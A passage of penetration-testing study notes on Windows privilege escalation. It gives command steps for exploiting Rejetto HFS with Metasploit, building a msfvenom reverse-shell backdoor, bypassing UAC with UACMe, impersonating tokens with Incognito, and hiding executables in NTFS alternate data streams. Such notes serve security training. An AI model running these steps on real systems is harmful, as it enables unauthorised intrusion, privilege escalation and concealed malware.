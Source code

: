 
**Steps:**
- Check auth infor with `net user`
- In demo, to exploits http:80, we use `rejetto_hfs_exec` module to have meterpreter sessions
  - `pgrep explorer` `migrate <number>` to change to `x64`
- Generate payload `msfvenom -p <payload> LHOST=<dest_ip> Lport=<Dest_port> -f exe`
- Setup listener -> Use `multi/handler` -> Set payload, port and host like above -> Run
- Using meterpreter, Upload backdoor.exe from msfvenom, upload `UACMe/Akagi64.exe`
- Run `Akagi64.exe 23 C:\Temp\backdoor.exe` run backdoor with escalate privilege. `23` is a method to bypass, define by UACMe.
- Recheck listener -> `ps` list process -> `migrate <pid>` Migrate to pid of Privilage user, like system 

### Windows Access token

Windows Access token are core element of the auth process on Windows and service manage it is `LSASS`
  - A tempory key for provide privilege to process.
  - Access token are generate by Winlogon.exe and attach to user account and process. 
  - All process started by user will inherit a copy of that token

Access token will have 2 security level
  - Impersonate level token: Non interactive login.
  - Delegate-level token: Interactive login.

Privilege that able to perform impersonation attack:
- SeAssignPrimaryToken
- SeCreateToken
- SeImpersonatePrivilege

Tool use for exploit:
- Incognito: Built-in meterpreter module.

**Steps:**
- Use `rejetto` to open meterpreter 
  - `set PAYLOAD windows/meterpreter/reverse_tcp`
- `load incognito` -> `list_tokens -u`
  - `impersonate_token "<user>"`
  - `migrate <pid>`

If we don't get any token by `list_tokens`, we might need to perfrom potato attack

### ADS Alternate data stream

ADS is an NTFS file attribute and was designed to provide compatibility with the MacOS HFS

Any file created of NTFS will have 2 streams:
- Data stream: Content of file
- Resource stream: Meta data

Attacker can use ADS to hide malicious code or exe

**How to hide exe:**
- Create a file: `notepad text.txt:secret.txt`
  - Content of secret.txt file is hidden
  - Content of text.txt is visible
  - secret.txt treat like a attribute of text.txt
- Test with `Winpeas` -> Hide it in tmp
  - Copy content of payload to ADS `type payload.exe > windows.txt:winpeas.exe`
  - Start exploit `start windows.txt:winpeas.exe`
  - We can make link `mklink start_process.exe windows.txt:winpeas.exe`
